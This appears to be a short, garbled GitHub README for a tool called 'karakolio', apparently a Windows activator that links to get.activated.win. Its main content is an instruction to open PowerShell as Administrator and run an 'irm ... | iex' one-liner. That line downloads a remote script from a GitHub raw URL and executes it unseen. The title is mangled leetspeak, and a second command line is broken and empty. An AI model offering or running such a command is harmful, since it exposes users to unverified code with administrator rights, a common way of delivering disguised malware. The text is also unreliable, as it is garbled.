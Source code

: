 # karakolio Wina 11 eb3sh3 1 mn00 d4ug1 k@t0 n3g0

- [developing](https://get.activated.win/)

# Installing by using PowerShell as Administrator

```cmd
irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.ps1 | iex
```

```
irm  | iex
